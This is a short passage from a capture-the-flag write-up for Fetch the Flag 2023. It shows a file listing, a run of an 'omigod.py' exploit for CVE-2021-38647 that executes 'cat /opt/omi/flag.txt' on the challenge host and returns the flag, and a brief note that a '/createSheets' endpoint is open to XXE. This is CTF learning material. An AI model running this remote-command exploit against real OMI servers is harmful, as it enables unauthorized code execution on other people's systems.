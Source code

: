 ```bash
    10725      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:03/tty/ttyS0/flags
    10845      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:06/tty/ttyS3/flags
    10765      0 -r--r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/pnp0/00:04/tty/ttyS1/flags
   156674      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/virtual/net/lo/flags
   156840      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/devices/virtual/net/eth0/flags
     1525      0 -rw-r--r--   1 root     root         4096 Oct 28 15:35 /sys/module/scsi_mod/parameters/default_dev_flags
  1266105      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/kernel/acpi_video_flags
  1266251      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/net/ipv4/fib_notify_on_flag_change
  1266532      0 -rw-r--r--   1 root     root            0 Oct 28 15:35 /proc/sys/net/ipv6/fib_notify_on_flag_change
4026532031      0 -r--------   1 root     root            0 Oct 28 15:35 /proc/kpageflags

┌──(bravosec㉿fsociety)-[/media/sf_kali-share/ctf/fetch-the-flag-2023/CVE-2021-38647]
└─$ python omigod.py -t challenge.ctf.games -c 'cat /opt/omi/flag.txt'|sed 's/&#10;/\n/g'
flag{6fd9ffb9b8e946b5c61bb7826eff78f0}
```


## Bedsheets


### XXE

`/createSheets` accepts user input which causes XXE
